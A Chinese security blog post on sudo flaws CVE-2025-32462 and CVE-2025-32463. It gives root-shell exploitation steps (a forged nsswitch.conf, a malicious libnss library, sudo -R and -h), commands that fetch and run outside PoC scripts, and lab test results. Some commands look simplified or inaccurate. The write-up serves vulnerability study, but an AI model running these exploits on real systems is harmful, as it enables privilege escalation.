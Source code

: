 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzA3NTc0MTA1Mg==&mid=2664712371&idx=1&sn=7f8436b06ea91d58fe0d1e3ca12933f2

#  CVE-2025-32462&CVE-2025-32463  
原创 simeon的文章  小兵搞安全   2025-07-02 11:19  
  
- **CVE-2025-32462（主机规则绕过）**  

```
-h/--host
```

  
 选项未遵循最小权限原则，在非列表场景（如命令执行）中未验证主机规则边界。当 
```
sudoers
```

  
 文件使用 
```
Host
```

  
 或 
```
Host_Alias
```

  
 配置主机级权限时，攻击者可构造恶意主机名绕过访问控制链  
  
。  
- **CVE-2025-32463（Chroot NSS劫持）**  
  
漏洞根因在于 
```
sudo 1.9.14+
```

  
 将 
```
chroot()
```

  
 路径解析提前至 
```
sudoers
```

  
 规则评估前。攻击者在可控目录内植入伪造的 
```
/etc/nsswitch.conf
```

  
，通过 
```
libnss_*.so
```

  
 加载恶意库实现 root shell  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VE5r9Cw6DicicRcsZlr7Is9NkdqHaTAeqGnia5JyNRXae2GVrlOE8VqBjCToK86sGial6YlVk1AN1txibQ/640?wx_fmt=png&from=appmsg "")  
### 1.1.1CVE-2025-32462 攻击路径  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VE5r9Cw6DicicRcsZlr7Is9NkvG4vJnSk6b05ks5GIGTjcAs8gIzNuHyC9Y9d29eqUyCJqkakwujGxQ/640?wx_fmt=png&from=appmsg "")  
  
触发条件：需满足 sudoers 中存在分主机权限规则（常见于LDAP/SSSD统一策略环境  
### 1.1.2受影响的发行版与版本  
<table><tbody><tr style="height: 33px;"><td data-colwidth="127" width="127" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><strong><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">发行版</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><strong><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">受影响版本</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><strong><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">修复版本</span></span></strong></p></td></tr><tr style="height: 33px;"><td data-colwidth="127" width="127" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><strong><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">Ubuntu</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">20.04+/24.04 LTS</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">1.9.9-1ubuntu2.5+ (22.04)</span></span><span style="color: rgb(64, 64, 64);background-color: rgb(229, 229, 229);font-size: 12px;"></span></p></td></tr><tr style="height: 33px;"><td data-colwidth="127" width="127" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><strong><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">Debian</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">Bookworm </span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">1.9.13p3-1+deb12</span></span></p></td></tr></tbody></table>## 1.2CVE-2025-32463 利用链  
### 1.2.1在用户可写目录创建恶意结构  
  
mkdir ./exploit_root  
  
echo 'passwd: ../tmp/libnss_exploit.so.2' > ./exploit_root/etc/nsswitch.conf  
  
gcc -shared -fPIC -o /tmp/libnss_exploit.so.2 exploit.c # 含setreuid(0,0)构造函数  
### 1.2.2触发漏洞  
  
sudo -R ./exploit_root /bin/true  # 加载恶意库获取root shell  
  
核心缺陷：chroot 环境路径解析与 sudoers 评估时序倒置  
## 1.3 CVE-2025-32462 验证步骤  
  
1.配置漏洞环境（需sudoers含主机规则）  
  
echo 'user1 ALL=(ALL:ALL) Host_Alias=TRUSTED_HOSTS' > /etc/sudoers.d/test  
  
2.执行绕过  
  
sudo -h malicious_hostname /bin/bash  # 获取root shell  
  
CVE-2025-32463 自动化检测  
  
wget   
https://stratascale.com/poc/sudo-chwoot.sh  
  
chmod +x sudo-chwoot.sh  
  
./sudo-chwoot.sh check  
## 1.4实际测试  
### 1.4.1 kali2024版本虚拟机测试  
  
1.查看当前内核版本  
  
uname -ar  
  
cat /proc/version  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VE5r9Cw6DicicRcsZlr7Is9NkPpAgHCVnuLpw2LCQno0b5M9jyeibS3cVia7aHH2VjutOsxXwia4pIWSEA/640?wx_fmt=png&from=appmsg "")  
  
sudo -V  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VE5r9Cw6DicicRcsZlr7Is9Nk0dr75Fq0m5FVOE8vGCAfBZvGxrcChJERZnYGqQNnjhES7gEU6iaWicyQ/640?wx_fmt=png&from=appmsg "")  
  
2.下载poc并执行  
  
git clone   
https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git  
  
cd CVE-2025-32463_chwoot  
  
./sudo-chwoot.sh  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VE5r9Cw6DicicRcsZlr7Is9Nkel3NyTEMtDIZfFncws1VdWPG9atGUSiaGdOpSaDJAgfBqIg0AUs8p7w/640?wx_fmt=png&from=appmsg "")  
### 1.4.2 kali2025测试失败  
  
1.查看内核版本及sudo版本  
  
cat /proc/version  
  
sudo -V  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VE5r9Cw6DicicRcsZlr7Is9Nk0Ch1ayu2sT4RqfsKjuYyQwIUCvBavlia5xpJaYibbaNtQh5sSbxaMBwQ/640?wx_fmt=png&from=appmsg "")  
  
2.下载并执行poc  
  
 clone   
https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git  
  
cd CVE-2025-32463_chwoot  
  
./sudo-chwoot.sh  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VE5r9Cw6DicicRcsZlr7Is9NkHMzg7HmGgiaBHlPXbg2NibfejKK46INgmicmXrAMhJP0dEiaBCdicw2tn2w/640?wx_fmt=png&from=appmsg "")  
### 1.4.3 ubuntu22版本  
  
1.基本信息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VE5r9Cw6DicicRcsZlr7Is9NkjUvT1ILrVOMk3zHdSpEHz9mExa4qRty6HE9iak9VBKmaxsGm8P8maMg/640?wx_fmt=png&from=appmsg "")  
  
2.测试poc  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VE5r9Cw6DicicRcsZlr7Is9NkteoKzkLibWSoYfO1Z5GWEkbH1Jy3AnBr0ErlKe3ntK49wDc6ft9YibrA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VE5r9Cw6DicicRcsZlr7Is9NkwUpdjAg1jS69YicKichiatMoiaF60ef5ibicKqD9RccY5icvmEPIpTdOGEicTA/640?wx_fmt=png&from=appmsg "")  
  
当前账号没有R权限，需要在
```
/etc/sudoers
```

  
 有R权限。  
  
john ALL=(ALL) NOPASSWD: /path/to/woot -R  
  
      外面传的很厉害，在kali中测试比较成功，在ubantu2022版本以及真实环境中均未再现。个人感觉有些鸡肋。  
  
  
